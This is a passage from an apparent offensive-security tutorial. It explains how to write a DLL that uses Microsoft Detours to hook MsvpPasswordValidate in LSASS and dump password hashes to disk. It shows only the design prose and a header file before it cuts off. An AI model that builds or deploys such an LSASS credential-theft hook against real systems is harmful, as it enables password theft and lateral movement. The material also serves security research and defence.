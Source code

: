 ### Writing the DLL
Now that we have verified FuzzySec's hint we can move on to write our own password dumping utility. We will write a custom DLL which will hook `MsvpPasswordValidate`, extract the hash and write it to disk. This DLL will be called HppDLL, since I will integrate it in a tool I already made (and which I will publish sooner or later) called HashPlusPlus (HPP for short). We will be using Microsoft Detours to perform the hooking action, __better not to use manual hooking when dealing with critical processes like LSASS, as crashing will inevitably lead to a reboot__. I won't go into details on how to compile Detours and set it up, it's pretty straightforward and I will include a compiled Detours library into HppDLL's repository.
The idea here is to have the DLL hijack the execution flow as soon as it reaches `MsvpPasswordValidate`, jump to a rogue routine which we will call `HookMSVPPValidate` and that will be responsible for extracting the credentials. Done that, `HookMSVPPValidate` will return to the legitimate `MsvpPasswordValidate` and continue the execution flow transparently for the calling process. Complex? Not so much actually. 

##### Hppdll.h
We start off by writing the header all of the code pieces will include:

```c++
#pragma once
#define SECURITY_WIN32
#define WIN32_LEAN_AND_MEAN

// uncomment the following definition to enable debug logging to c:\debug.txt
#define DEBUG_BUILD

#include <windows.h>
#include <SubAuth.h>
#include <iostream>
#include <fstream>
#include <string>
#include "detours.h"

// if this is a debug build declare the PrintDebug() function
// and define the DEBUG macro in order to call it
// else make the DEBUG macro do nothing
#ifdef DEBUG_BUILD
void PrintDebug(std::string input);
#define DEBUG(x) PrintDebug(x)
#else
#define DEBUG(x) do {} while (0)
#endif

// namespace containing RAII types to make sure handles are always closed before detaching our DLL
namespace RAII
{
	class Library
	{
	public:
		Library(std::wstring input);
		~Library();
		HMODULE GetHandle();

	private:
		HMODULE _libraryHandle;
	};

	class Handle
	{
	public:
		Handle(HANDLE input);
		~Handle();
		HANDLE GetHandle();

```
